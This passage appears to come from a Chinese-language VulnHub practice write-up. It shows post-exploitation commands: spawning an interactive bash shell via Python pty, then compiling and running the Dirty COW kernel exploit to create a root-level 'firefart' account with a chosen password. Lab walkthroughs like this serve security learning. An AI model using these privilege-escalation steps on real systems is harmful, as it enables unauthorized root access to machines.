

## 提升权限

更改下成bash的交互式命令行

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

然后也查看下系统的版本号什么的

![](vulnhub-练习记录\21.png)



于是想试下传说中的脏牛提权（dirty cow）

提权为了防止权限制，需要切换到`/tmp`目录下，下载好.c文件，然后编译运行

```shell
gcc -pthread dirty.c -o dirty -lcrypt
```

然后运行脚本，后面password为想更改的密码，默认账号为firefart

```shell
./dirty password 
```

![](vulnhub-练习记录\22.png)
